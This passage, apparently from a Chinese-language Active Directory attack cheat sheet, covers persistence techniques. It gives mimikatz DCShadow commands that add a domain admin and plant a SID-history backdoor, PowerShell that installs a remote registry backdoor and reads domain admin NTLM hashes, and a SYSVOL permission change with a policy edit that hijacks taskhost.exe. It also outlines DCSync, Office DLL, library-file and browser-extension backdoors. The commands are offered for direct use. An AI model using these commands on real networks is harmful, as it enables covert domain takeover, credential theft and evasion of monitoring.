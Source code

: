 ### 13.dcshadow

防止持久化操作被SIEM等系统记录，伪造一个域控，实行完操作后，将数据同步到真实域控。

```bash
lsadump::dcshadow /object:CN=dc,CN=Users,DC=lce,DC=com /attribute:primarygroupid/value:512     //使用system权限添加域管 
lsadump::dcshadow /push     //使用域管权限进行域复制，后同
lsadump::dcshadow /object:CN=dc,CN=Users,DC=lce,DC=com /attribute:sidhistory /value:S-1-5-21-771480511-316148334-622873008-500   //sid history后门
```

### 14.acl

方法1：基于注册表ACL后门，在域控制器上将hklm的特定键值分配everyone读取权限，使用DAMP这个工具设置即可。之后在。普通用户机器上读ntlm hash。

```java
首先在域控上修改：
import-module Add-RemoteRegBackdoor.ps1 //导入
Add-RemoteRegBackdoor -ComputerName client.external.local -Trustee 'S-1-1-0' -Verbose 
然后普通用户机器上读ntlm hash：
import-module RemoteHashRetrieval.ps1   //导入
Get-RemoteLocalAccountHash -ComputerName ad1 -Verbose   //域内普通用户读取域管ntlm hash
之后可以pth等等
```

方法2：基于域策略文件权限后门，域里机器每过一段时间会访问域控制器的C:\Windows\SYSVOL\sysvol\domain. com\Policies 以更新它们的策略。我们可以配置Policies的文件夹权限为everyone完全控制。

```cpp
cacls C:\Windows\SYSVOL\sysvol\lce.com\Policies /e /t /c /g "EveryOne":f  //配置policies文件夹权限为everyone完全控制
import-module powerview.ps1 //导入powerview脚本
Get-NETGPO -ComputerName w7 |fl gpcfilesyspath  //查询某台机器对应的策略文件
找到目标文件夹下MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf文件，在文件末尾添加：//修改策略
[Registry Values] MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskhost.exe\Debugger=1,c:\windows\system32\calc.exe [Version] signature="$CHICAGO$" Revision=1
gpupdate /force //手动刷新策略触发策略启动计算器
```

方法3：dcsync后门，在高级功能的安全中把everyone用户设置成完全控制，任意用户可以导出域hash，并pth。

### 15.其他方式

**office系列**

基本思路是将恶意dll文件保存到office打开时会调用dll的位置，如%APPDATA%\Microsoft\Word\Startup、%appdata%\Microsoft\AddIns等，然后修改注册表，实现打开office软件加载恶意dll的目的。

**windows库**

创建clsid；在Windows的xml库文件中插入simplelocation元素。

**应用插件和扩展**

比如chrome的恶意插件，vs，notepad++等。
